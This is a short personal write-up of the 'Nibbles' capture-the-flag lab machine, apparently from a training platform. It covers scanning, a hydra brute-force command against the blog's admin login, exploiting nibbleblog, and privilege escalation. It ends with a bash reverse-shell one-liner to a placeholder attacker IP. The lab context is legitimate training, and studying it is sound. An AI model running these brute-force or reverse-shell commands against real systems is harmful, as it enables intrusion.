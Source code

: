 # Nibbles

<!-- <summary2><strong>What I Learned</strong></summary2> -->

### What I Learned

<!-- <body> -->

1. Always check machine password settings before brute forcing machine. Could end up with a locked out machine otherwise
2. Writing this from 2 months after I did this machine, I'm kind of embarrassed by how bad this writeup is, but I will keep it up to remind myself how far I have come.
<!-- </body> -->

<details>
  <summary><strong>Writeup Summary</strong></summary>
Scan using nmap. Find the website and analyze the pages using feroxbuster. Look through the files to find a username. Once a username is found, use hydra to brute force passwords and get blacklisted. Try some different passwords like "admin" and "password", but the password is "nibbles". Login to the website. Look on searchsploit for nibbleblog exploits and use it against the nibbleblog plugin and get a shell. Find what commands you can run (sudo -l). Replace the single file with root access and executability with a reverse shell and run it to get a root shell.

</details>
<br>

## Writeup

Start by scanning the machine for open ports

Nmap

Use Feroxbuster to find other directories
• feroxbuster -u http://10.129.62.214/nibbleblog -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt

Find username admin in files
• http://10.129.62.214/nibbleblog/content/private/users.xml

![alt text](images/image.png)

Use Hydra to brute force passwords
• hydra -l admin -P ./xato-net-10-million-passwords-10000.txt 10.129.62.214 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username"

![alt text](images/image-1.png)

Try passwords after getting locked out of box and resetting it
Get access to CLI as user nibbler

Run these commands for enumeration
• `cat /etc/passwd | grep sh$`
• `sudo -l`
• `cat /etc/fstab`

Find sudoable command for running as root
•`sudo -l`

Replace the sudo shell file contents with reverse shell

`nohup bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1`
